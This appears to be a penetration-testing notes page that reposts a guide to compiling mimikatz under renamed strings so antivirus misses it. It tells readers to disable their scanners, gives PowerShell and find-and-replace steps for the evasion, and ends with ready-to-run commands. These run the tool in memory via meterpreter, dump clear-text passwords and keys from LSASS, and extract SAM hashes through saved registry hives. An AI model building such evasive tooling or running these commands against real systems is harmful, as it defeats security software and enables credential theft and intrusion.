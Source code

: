 ```yaml
---
description: '(https://aboureada.com/oscp/2017/12/02/jolly_frog.html)'
---
```


# Building MIMIKATZ for older versions of Windows

> I had compiled mimikatz from source, and I wondered if that might have broken something. So I fired up a Windows XP SP0 machine and tried the pre-compiled mimikatz version from the inter-webs. Sure thing, the program worked flawlessly. I then ran my compiled version - which I thought should be identical - and when executing mimikatz I got an error screen on the desktop stating a "DecodePointer" function in Kernel32.dll couldn't be found. I did some research on this error and learnt that the DecodePointer function was only added to kernel32.dll after Windows SP2: Mystery solved! I added the DecodePointer function to the solution, built it, fired up mimikatz on my Windows XP SP0 machine it worked.  
>   
> A minor inconvenience was that my antivirus would pick up Mimikatz as malware and delete the file. I proceeded to change the mimikatz code very slightly and I've come up with a version that my antivirus doesn't detect \(yet\) as a virus. I've attached the complete procedure below in case someone wants to compile Mimikatz from source and runs into the same issue:
>
> _Author: JollyFrogs, Brisbane_

{% hint style="danger" %}
Disable all virus-scanners before you start downloading, keep them disabled until your files are compiled
{% endhint %}

### Get the required programs and files:

1. **Download:** 
   1. \*\*\*\*[https://github.com/gentilkiwi/mimikatz/archive/master.zip](https://github.com/gentilkiwi/mimikatz/archive/master.zip) \(Free\)
   2. [GRMWDK\_EN\_7600\_1.ISO](https://download.microsoft.com/download/4/A/2/4A25C7D5-EFBE-4182-B6A9-AE6850409A78/GRMWDK_EN_7600_1.ISO) from Microsoft \(Free\)
   3. vs2013.4\_ce\_enu.iso from Microsoft \(Free\)
   4. fnr.exe from [https://findandreplace.codeplex.com/downloads/get/809617](https://findandreplace.codeplex.com/downloads/get/809617)
   5. [http://mulder.googlecode.com/svn/trunk/Utils/EncodePointerLib/Release/EncodePointer.lib](http://mulder.googlecode.com/svn/trunk/Utils/EncodePointerLib/Release/EncodePointer.lib)
2. **Install Driver Development Toolkit:**
   1. Extract GRMWDK\_EN\_7600\_1.ISO with 7-zip
   2. Run KitSetup.exe - Click Yes to start the installation - Tick "Full Development Environment" and leave all other options unticked - Click "OK" in the bottom right - Install path: C:\WinDDK\7600.16385.1\ - Click "OK" in the bottom right - Tick "I Agree" in the bottom left and click "OK" NOTE: The installation commences - Click "Finish" in the "Microsoft WDK Install Progress" screen
3. **Install Visual Studio 2013 Community Edition:**
   1. Extract vs2013.4\_ce\_enu.iso with 7-zip
   2. Run vs\_community.exe - Click "Continue" if you get a setup warning - Install path: C:\Program Files \(x86\)\Microsoft Visual Studio 12.0\ - Tick "I agree to the License Terms and Privacy Policy." - Untick "Join the Visual Studio Experience Improvement Program" - Click "Next" - Tick and then untick "Select All" to select nothing - Click "INSTALL" - Click "Yes" to close the UAC warning screen NOTE: the installation commences - Click "LAUNCH" after install completes - Click "Not now, maybe later." in the Welcome screen - Select "General" and Select "Blue" and Click "Start Visual Studio"
4. **Prevent AV detection on Mimikatz:**
   1. Extract mimikatz-master.zip to C:\jollykatz\ \(you should end up with C:\jollykatz\mimikatz-master\mimikatz.sln" and a whole bunch of files/folders\)
5. **Run the following in a cmd.exe to rename all files and folders to from "mimi" to "jolly":**
   1. powershell.exe -noprofile -command "1..10 \| % {Get-ChildItem c:\jollykatz\ -Filter \"\*mimi\*\" -Recurse \| Rename-Item -NewName {$\_.name -replace 'mimi','jolly' }}"
   2. powershell.exe -noprofile -command "1..10 \| % {Get-ChildItem c:\jollykatz\ -Filter \"\*kuhl\*\" -Recurse \| Rename-Item -NewName {$\_.name -replace 'kuhl','frog' }}"
6. **Run fnr.exe with following settings:** Dir: C:\jollykatz\ Tick "Include sub-directories File Mask: \*.\* Find: mimi replace: jolly Click "replace"
7. **Run fnr.exe with following settings:** Dir: C:\jollykatz\ Tick "Include sub-directories File Mask: \*.\* Find: kuhl replace: frog Click "replace"
8. run fnr.exe with following settings: Dir: C:\jollykatz\ Tick "Include sub-directories File Mask: \*.\* Find: eo.oe.kiwi replace: THINC.local Click "replace" Close fnr.exe
9. Copy "EncodePointer.lib" to C:\jollykatz\jollykatz-master\lib\Win32
10. Copy "EncodePointer.lib" to C:\jollykatz\jollykatz-master\lib\x64 NOTE: We're adding "EncodePointer.lib" because WinXP SP0/SP1 would error out with a DecodePointer error caused by compiling with VS2013 
11. Now we'll build "Jollykatz":

- Double-click on "C:\jollykatz\jollykatz-master\jollykatz.sln"  
NOTE: Visual Studio Community Edition opens your project  
  
  
- In the "Solution Explorer" window on the right, expand "global files" -&gt; "lib" -&gt; right-click on "Win32" and select "Add" -&gt; "Existing Item"  
- Choose "C:\jollykatz\jollykatz-master\lib\Win32\EncodePointer.lib"  
- In the "Solution Explorer" window on the right, expand "global files" -&gt; "lib" -&gt; right-click on "x64" and select "Add" -&gt; "Existing Item"  
- Choose "C:\jollykatz\jollykatz-master\lib\x64\EncodePointer.lib"  
  
  
- In the "Solution Explorer" window on the right, right-click on "jollykatz" \(might have to scroll to bottom\) and select "Properties"  
- Expand "Configuration Properties" -&gt; "General" -&gt; Set "Use of MFC" to "Use Standard Windows Libraries"  
- Click "Apply" in the bottom  
- Expand "Configuration Properties" -&gt; "C/C++" -&gt; "Code Generation" -&gt; Set "Runtime Library" to "Multi-threaded \(/MT\)"  
- Click "Apply" in the bottom  
- Expand "Configuration Properties" -&gt; "Linker" -&gt; "Input" -&gt; Add "EncodePointer.lib;" at the start of "Additional Dependencies" \(in front of "advapi32.lib"\)  
- Click "OK" in the bottom  
  
  
- In the top menu bar, click "Build" -&gt; "Rebuild Solution"  
NOTE: You should see "Rebuild All: 3 succeeded, 0 failed, 0 up-to-date, 0 skipped"  
NOTE: This means that the 32-bit build succeeded!  
  
  
- In the top bar, next to "Release", change "Win32" to "x64"  
- In the top menu bar, click "Build" -&gt; "Rebuild Solution"  
NOTE: You should see "Rebuild All: 3 succeeded, 0 failed, 0 up-to-date, 0 skipped"  
NOTE: This means that the 64-bit build succeeded!  
  
  
NOTE: You should now see 5 files in the C:\jollykatz\jollykatz-master\Win32\ directory, of which you will need 3:  
- jollykatz.exe  
- jollylib.dll  
- jollydrv.sys  
NOTE: You should see the same file structure in the C:\jollykatz\jollykatz-master\x64\ directory  
  
  
Copy and rename C:\jollykatz\jollykatz-master\Win32\jollykatz.exe to C:\jollykatz\jollykatz32.exe  
Copy and rename C:\jollykatz\jollykatz-master\x64\jollykatz.exe to C:\jollykatz\jollykatz64.exe  
NOTE: Typically, you only need jollykatz.exe, the driver \(jollydrv.sys\) and library \(jollylib.dll\) files are optional. If you need the drivers, copy and rename them as well.  
  
  
NOTE: Hopefully, your antivirus won't pick up on the new jollykatz.exe files. If it does, you'll need to modify some code. Or use the Veil framework.  
  
  
Run Mimikatz from memory through meterpreter \(advisable\):

execute -H -i -c -m -d calc.exe -f jollykatz.exe -a '"privilege::debug" "sekurlsa::logonPasswords full" "exit"'  
  
  
How to use:

  
  
-- \*\*\*\* clear-text passwords from LSASS process:  
C:\&gt; jollykatz32.exe "privilege::debug" "sekurlsa::logonPasswords full" "exit"  
  
  
-- Steal users credentials until they reset their passwords:  
C:\&gt; jollykatz32.exe "privilege::debug" "sekurlsa::ekeys" "exit"  
  
  
-- \*\*\*\* LM and NTLM hashes from SAM:  
C:\&gt; jollykatz32.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"  
  
  
-- read SAM file from /repair or ntbackup files:  
C:\&gt; reg save HKLM\SYSTEM SystemBkup.hiv  
C:\&gt; reg save HKLM\SAM SamBkup.hiv  
\(Or use Volume Shadow Copy / BootCD to backup these files or get them from the repair folder:\)  
C:\Windows\System32\config\SYSTEM  
C:\Windows\System32\config\SAM  
C:\&gt; jollykatz32.exe "lsadump::sam SystemBkup.hiv SamBkup.hiv" "exit"

